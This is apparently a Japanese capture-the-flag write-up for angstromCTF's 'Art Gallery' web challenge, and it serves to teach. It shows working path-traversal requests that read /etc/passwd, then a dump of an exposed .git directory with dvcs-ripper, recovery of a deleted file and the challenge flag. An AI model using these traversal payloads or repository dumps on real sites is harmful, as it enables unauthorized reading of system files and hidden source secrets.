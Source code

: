 # Art Gallery:Web:100pts
bosh left his [image gallery](https://art-gallery.web.actf.co/) service running.... quick, git all of his secrets before he deletes them!!! [source](index.js)  

# Solution
アクセスすると画像を閲覧できるサイトのようだ。  
Angstrom Food Art Gallery  
[site.png](site/site.png)  
Foodを選ぶと`https://art-gallery.web.actf.co/gallery?member=aplet.jpg`のようなページにリダイレクトした。  
```bash
$ curl -s "https://art-gallery.web.actf.co/gallery?member=../../etc/passwd" | strings
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
~~~
```
ソースを見るまでもなく自明なパストラバーサルがわかる。  
ここから機密を探すようだが、問題文にgitとあるので、`.git`を狙う。  
```bash
$ curl -s "https://art-gallery.web.actf.co/gallery?member=../.git/HEAD" | strings
ref: refs/heads/master
```
一つ上に見つかった。  
[kost/dvcs-ripper](https://github.com/kost/dvcs-ripper)でダンプし、logを見てみる。  
```bash
$ git clone https://github.com/kost/dvcs-ripper.git
~~~
$ mkdir dump; cd dump
$ ../dvcs-ripper/rip-git.pl -v -u "https://art-gallery.web.actf.co/gallery?member=../.git/"
[i] Downloading git files from https://art-gallery.web.actf.co/gallery?member=../.git/
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting 200 as 404 responses. Adapting...
[i] Using session name: IPKgmFnO
[d] found COMMIT_EDITMSG
[d] found config
[d] found description
[d] found HEAD
[d] found index
[!] Not found for packed-refs: 404 as 200
[!] Not found for objects/info/alternates: 404 as 200
[!] Not found for info/grafts: 404 as 200
[d] found logs/HEAD
[d] found objects/56/449caeb7973b88f20d67b4c343cbb895aa6bc7
[d] found objects/71/3a4aba8af38c9507ced6ea41f602b105ca4101
[d] found objects/1c/584170fb33ae17a63e22456f19601efb1f23db
[d] found refs/heads/master
[!] Not found for: 404 as 200
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
error: 56e8e4282f1e92b8f9e7183771f73777fb3b78ef: invalid sha1 pointer in cache-tree
[d] found objects/3f/bb557e5558aec56295c7f57e2d53f451d776cc
[d] found objects/a5/b3c03785736215a4baa6740b5e595eac72ecc1
[d] found objects/8a/ba39c0cc9e4e4835796ff01b98c86b8bc81b01
[d] found objects/eb/8070196c48bf973d69f04aa6befea57a79641c
[d] found objects/4c/6c1591f1c1eac077042a3d5f37fa90c5bb4e0d
[d] found objects/ab/8ad5c7ab55aa2d66b9c4a9041f13e298a3c18f
[d] found objects/14/86c662205e9b59ec3a3203f22421d9a538f241
[d] found objects/56/e8e4282f1e92b8f9e7183771f73777fb3b78ef
[d] found objects/36/781365cafae93b3cd8dbc5450e62c0eb57aeea
[d] found objects/1b/9d0af53001a5c2a72c0c61d16d62403992800b
[d] found objects/ff/511529549e4a9376c897df27e001a909caa933
[i] Got items with git fsck: 11, Items fetched: 11
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
error: 5c1ff269bddd32dbe31722b499189947fbd8346a: invalid sha1 pointer in cache-tree
[d] found objects/78/0f864715099a7612efae3a3cdbccde05a0adc4
[d] found objects/5c/1ff269bddd32dbe31722b499189947fbd8346a
[i] Got items with git fsck: 2, Items fetched: 2
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
[i] Got items with git fsck: 0, Items fetched: 0
[!] No more items to fetch. That's it!
$ git log
commit 1c584170fb33ae17a63e22456f19601efb1f23db (HEAD -> master)
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:47:45 2022 -0400

    bury secrets

commit 713a4aba8af38c9507ced6ea41f602b105ca4101
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:48 2022 -0400

    remove vital secrets

commit 56449caeb7973b88f20d67b4c343cbb895aa6bc7
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:01 2022 -0400

    add program
```
secretsなるものを消しているようだ。  
checkoutして中身を見てやる。  
```bash
$ git checkout 56449caeb7973b88f20d67b4c343cbb895aa6bc7
~~~
$ ls
error.html  flag.txt  images  index.html  index.js  package-lock.json  package.json
$ cat flag.txt
actf{lfi_me_alone_and_git_out_341n4kaf5u59v}
```
flag.txtにflagが書かれていた。  

## actf{lfi_me_alone_and_git_out_341n4kaf5u59v}